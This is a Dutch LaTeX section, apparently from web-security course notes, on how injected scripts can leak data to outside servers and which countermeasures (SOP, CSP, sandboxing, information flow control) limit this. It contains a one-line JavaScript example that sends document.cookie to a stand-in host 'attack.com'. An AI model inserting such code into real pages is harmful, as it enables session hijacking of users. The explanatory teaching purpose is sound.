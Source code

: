 \documentclass[../main.tex]{subfiles}
\begin{document}
\subsection{Scripts}
Hoewel de \textbf{SOP} voorkomt dat script rechtstreeks verbinding maken met een server van de aanvaller kunnen script toch entiteiten aan de webpagina toevoegen die leiden tot een HTTP request naar een script-specifieke server. Als voorbeeld zien we hieronder hoe een script een cookie kan lekken naar een andere server.
\begin{lstlisting}[caption=Javascript code om cookie te lekken]
new Image().src = "http://attack.com/?=" + document.cookie;
\end{lstlisting}
Het is zelfs mogelijk voor het script om in twee richtingen te communiceren door het insluiten van een script. 
\\\\
Voorgaande techniek kan gebruikt worden om de session cookie te lekken. Eens hiervan in het bezit kan de aanvaller de hele sessie overnemen. Een andere aanval bestaat uit een script dat willekeurige requests stuurt naar de server van waar het script komt en op die manier bijkomende requests stuurt in de gebruikerssessie.

\subsubsection{Tegenmaatregelen}
Er zijn twee algemene tegenmaatregelen voor dit probleem:
\begin{itemize}
	\item Ontwerp van de JavaScript API en de browser
	\item De \textit{Same-Origin-Policy} die wordt afgedwongen door de brwoser
\end{itemize}
Deze twee zullen de meeste aanvallen kunnen stoppen. Toch zijn bijkomende tegenmaatregelen belangrijk. 

\begin{itemize}
	\item Defensief programmeren aan de serverzijde om zich te beschermen tegen \textit{XSS} kwetsbaarheden.
	\item  De \textbf{Content Security Policy} is een nieuwe \textit{W3C} standaard die toelaat aan de eigenaar van de pagina om te declareren waar de cli\"ent verwacht wordt inhoud op te halen. 
	\item \textbf{Sandboxing} van JavaScript code beperkt de mogelijkheden van een script aan de hand van een beleid dat door de programmeur is gespecificeerd.
	\item \textbf{Information flow security} beperkt de stroom van informatie door scripts van gevoelige bronnen naar publieke servers.
\end{itemize}
\end{document}
